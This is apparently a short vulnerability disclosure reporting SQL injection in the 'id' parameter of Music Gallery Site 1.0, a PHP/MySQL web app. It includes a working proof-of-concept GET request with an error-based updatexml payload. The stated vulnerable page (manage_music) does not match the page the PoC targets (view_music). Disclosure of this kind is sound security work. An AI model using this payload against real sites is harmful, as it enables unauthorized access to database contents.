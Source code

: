 ## Music Gallery Site has a front-end SQL injection vulnerability

## Affected version: 
Music Gallery Site - 1.0

## Author:
Liuhaobin

## Software:
https://www.sourcecodester.com/php/16073/music-gallery-site-using-php-and-mysql-database-free-source-code.html

## Vulnerability File:
 /php-music/admin/?page=musics/manage_music

## Description:
Music Gallery Site 1.0 is vulnerable to an unrestricted SQL injection attack in /php-music/admin/?page=musics/manage_music with the attack parameter id. An attacker can exploit this vulnerability to directly obtain sensitive server information. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
GET /php-music/admin/?page=musics/view_music&id=4%27+and+updatexml(1%2Cconcat(0x7e%2C(database()))%2C3)--+q HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```
<img width="1197" alt="image" src="https://github.com/user-attachments/assets/1372dd3a-f865-41bb-8676-4ea4fb727a70">


